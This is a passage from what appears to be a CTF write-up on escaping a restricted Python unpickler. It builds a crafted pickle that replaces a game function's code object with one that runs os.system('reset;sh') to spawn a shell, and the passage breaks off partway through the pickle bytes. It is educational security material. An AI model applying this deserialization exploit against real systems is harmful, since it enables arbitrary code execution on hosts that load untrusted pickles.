 Unfortunately, the restricted unpickler does not allow us to directly access `SnakeWindow.__code__.__class__`, as that would require two periods. Additionally, `SnakeWindow.__class__` is too long.

But, what about `SnakeSave`? One might think that, since `SnakeSave` is a class rather than an instance, that `__class__` is not defined at all. However, in python, classes are also objects themselves, instances of `type`!

```
>>> SnakeSave.__class__
<class 'type'>
```

This allows us to call `type(SnakeWindow.__code__)`, just like we wanted!

```
>>> SnakeSave.__class__(SnakeWindow.__code__)
<class 'code'>
```

Now that we have access to the code object constructor, all we need to do is call it with the right arguments (with `REDUCE`), then assign it to `SnakeWindow.__code__` (with `BUILD`).

## Building the Pickle
Note that `SnakeWindow` is called with one argument. So, we'll create a function that takes one argument (the `reset` is to fix the terminal, since the function is called by ncurses). Then, we'll print out all the necessary arguments to the code object constructor.

```python
def lmao(xd):
  __import__('os').system('reset;sh')

print(lmao.__code__.co_argcount)
print(lmao.__code__.co_posonlyargcount)
print(lmao.__code__.co_kwonlyargcount)
print(lmao.__code__.co_nlocals)
print(lmao.__code__.co_stacksize)
print(lmao.__code__.co_flags)
print(lmao.__code__.co_code)
print(lmao.__code__.co_consts)
print(lmao.__code__.co_names)
print(lmao.__code__.co_varnames)
print(lmao.__code__.co_filename)
print(lmao.__code__.co_name)
print(lmao.__code__.co_firstlineno)
print(lmao.__code__.co_lnotab)
print(lmao.__code__.co_freevars)
print(lmao.__code__.co_cellvars)
```

Now, we'll create a pickle to get the code object constructor and call it with these arguments, then assign it to `SnakeWindow.__code__`.

```python
p = PROTO + b'\x04' + \
  GLOBAL + b'__main__\nSnakeWindow\n' + \
  NONE + \
  MARK + \
    UNICODE + b'__code__\n' + \
    GLOBAL + b'__main__\nSnakeSave.__class__\n' + \
      GLOBAL + b'__main__\nSnakeWindow.__code__\n' + \
    TUPLE1 + REDUCE + \
    MARK + \
      BININT1 + b'\x01' + \
      BININT1 + b'\x00' + \
      BININT1 + b'\x00' + \
      BININT1 + b'\x01' + \
      BININT1 + b'\x03' + \
      BININT1 + b'\x43' + \
```